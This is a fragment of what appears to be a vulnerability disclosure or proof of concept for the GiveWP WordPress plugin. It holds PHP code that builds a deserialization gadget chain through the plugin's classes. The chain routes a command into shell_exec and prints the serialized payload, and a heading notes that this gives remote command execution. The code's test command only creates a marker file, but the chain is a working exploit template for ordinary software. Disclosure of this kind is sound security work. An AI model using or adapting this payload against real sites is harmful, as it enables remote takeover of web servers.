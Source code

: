 ```sh
    public $userInfo;
		public function __construct()
    {
        $this->userInfo['address'] = new \Give();
    } 
	}
}	

namespace{
	class Give{
		protected $container;
		public function __construct()
		{
			$this->container = new \Give\Vendors\Faker\ValidGenerator();
		}
	}
}

namespace Give\Vendors\Faker{
	class ValidGenerator{
		protected $validator;
		protected $generator;
		public function __construct()
		{
			$this->validator = "shell_exec";
			$this->generator = new \Give\Onboarding\SettingsRepository();
		}
	}
}

namespace Give\Onboarding{
	class SettingsRepository{
		protected $settings;
		public function __construct()
		{
			$this -> settings['address1'] = 'touch /tmp/EQSTtest';
		}
	}
}

namespace{
	$a = new Stripe\StripeObject();
	echo serialize($a);
}
```


# Attack Scenario
## RCE thru POP Chain
POP Chain allows remote command execution.
![image](https://github.com/user-attachments/assets/bb6773cc-34e3-4f05-9758-f3fe649bd6de)
